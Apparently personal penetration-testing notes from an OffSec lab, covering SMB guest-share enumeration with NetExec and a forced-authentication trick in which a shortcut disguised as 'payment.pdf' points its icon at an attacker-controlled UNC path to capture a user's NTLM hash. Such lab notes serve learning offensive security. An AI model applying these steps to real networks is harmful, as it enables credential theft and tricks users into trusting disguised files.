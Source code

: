 ```bash
```

### SMB
```bash
# check for anonymous bind
nxc smb 192.168.205.172 -u "" -p "" --shares

# check for guest access 
nxc smb 192.168.205.172 -u "guest" -p "" --shares
SMB         192.168.205.172 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         192.168.205.172 445    DC               [+] vault.offsec\guest: 
SMB         192.168.205.172 445    DC               [*] Enumerated shares
SMB         192.168.205.172 445    DC               Share           Permissions     Remark
SMB         192.168.205.172 445    DC               -----           -----------     ------
SMB         192.168.205.172 445    DC               ADMIN$                          Remote Admin
SMB         192.168.205.172 445    DC               C$                              Default share
SMB         192.168.205.172 445    DC               DocumentsShare  READ,WRITE      
SMB         192.168.205.172 445    DC               IPC$            READ            Remote IPC
SMB         192.168.205.172 445    DC               NETLOGON                        Logon server share 
SMB         192.168.205.172 445    DC               SYSVOL                          Logon server share 

# 
nxc smb 192.168.205.172 -u "guest" -p "" --generate-hosts-file ./scans/hosts



```
### 

## Forced Authentication & .lnk File abuse
- better than word macros as EDR and macro disablement is widespread in 2025
- aslo MoTW is a problem
-  WE can replace lnk files to point to a remote file
- we can also make lnk files use binary, to exeucte some command we want
- 
```bash

windows desktop 
new shortcut
%WINDIR% 
next
name: "payment.pdf"
finish

WE will change icon to look like PDF.
If target doesnt have show file extensions on, our LNK will look like a .pdf file

target
%ComSpec% /c echo pwned >%UserProfile\desktop\hacked.txt

# comspec is cmd.exe


change icon
path
\\192.168.1.1\test.ico
hit OK, there will be an error..

When user RENDERS icon, explorer.exe will try to fetch the icon.. no user-interaction required.
This provides us with a HASH, from the target user/computer
```